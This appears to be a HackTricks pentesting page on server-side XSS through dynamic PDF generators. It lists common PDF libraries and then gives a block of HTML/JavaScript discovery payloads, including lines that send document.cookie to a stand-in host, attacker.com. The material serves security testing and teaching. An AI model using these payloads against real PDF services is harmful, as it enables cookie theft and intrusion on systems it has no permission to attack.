# Server Side XSS (Dynamic PDF)

{{#include ../../banners/hacktricks-training.md}}

## Server Side XSS (Dynamic PDF)

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

Please, notice that the `<script></script>` tags don't work always, so you will need a different method to execute JS (for example, abusing `<img` ).\
Also, note that in a regular exploitation you will be **able to see/download the created pdf**, so you will be able to see everything you **write via JS** (using `document.write()` for example). But, if you **cannot see** the created PDF, you will probably need **extract the information making web request to you** (Blind).

### Popular PDF generation

- **wkhtmltopdf** is known for its ability to convert HTML and CSS into PDF documents, utilizing the WebKit rendering engine. This tool is available as an open-source command line utility, making it accessible for a wide range of applications.
- **TCPDF** offers a robust solution within the PHP ecosystem for PDF generation. It is capable of handling images, graphics, and encryption, showcasing its versatility for creating complex documents.
- For those working in a Node.js environment, **PDFKit** presents a viable option. It enables the generation of PDF documents directly from HTML and CSS, providing a bridge between web content and printable formats.
- Java developers might prefer **iText**, a library that not only facilitates PDF creation but also supports advanced features like digital signatures and form filling. Its comprehensive feature set makes it suitable for generating secure and interactive documents.
- **FPDF** is another PHP library, distinguished by its simplicity and ease of use. It's designed for developers looking for a straightforward approach to PDF generation, without the need for extensive features.

## Payloads

### Discovery

```html
<!-- Basic discovery, Write something-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">

<!-- Using base HTML tag -->
<base href="http://attacker.com" />

<!-- Loading external stylesheet -->
<link rel="stylesheet" src="http://attacker.com" />

<!-- Meta-tag to auto-refresh page -->
<meta http-equiv="refresh" content="0; url=http://attacker.com/" />

<!-- Loading external components -->
<input type="image" src="http://attacker.com" />
```